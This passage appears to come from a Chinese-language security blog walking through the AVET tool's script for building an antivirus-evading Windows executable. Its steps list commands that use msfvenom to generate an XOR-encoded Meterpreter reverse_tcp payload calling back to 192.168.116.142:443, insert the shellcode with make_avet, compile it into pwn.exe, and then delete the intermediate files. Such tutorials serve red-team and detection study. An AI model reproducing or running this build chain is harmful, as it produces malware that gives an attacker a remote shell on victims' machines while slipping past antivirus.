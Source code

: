 这里选择`7: build_win64_meterpreter_rev_tcp_xor.sh`

### 3、编辑脚本内容

显示默认脚本内容，可进行修改，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-8-15/3-2.png)

**注：**

脚本内容对应文件`/build/build_win64_meterpreter_rev_tcp_xor.sh`

默认脚本内容及说明如下：

(1)  指定gcc编译设置，内容为`win64_compiler="wine gcc -m64"`

```
. build/global_win64.sh
```

(2) 使用meterpreter生成reverse payload并保存为sc.txt

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.142 lport=443 -e x64/xor -f c --platform Windows > sc.txt
```

(3) 读取sc.txt的内容，提取出shellcode，删除文件sc.txt

```
./format.sh sc.txt > scclean.txt && rm sc.txt
```

(4) 调用make_avet，向文件defs.h传入shellcode和功能标志位

```
./make_avet -f scclean.txt -X -E
```

(5) 使用gcc编译avet.c(avet.c会调用defs.h)，生成最终文件pwn.exe

```
$win64_compiler -o pwn.exe avet.c
```

(6) 删除文件scclean.txt，清空文件defs.h

```
rm scclean.txt && echo "" > defs.h
```


### 4、执行，生成最终文件

确认脚本内容后，输入回车，执行脚本，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-8-15/3-3.png)

生成最终文件pwn.exe

## 0x04 工具实现细节
---
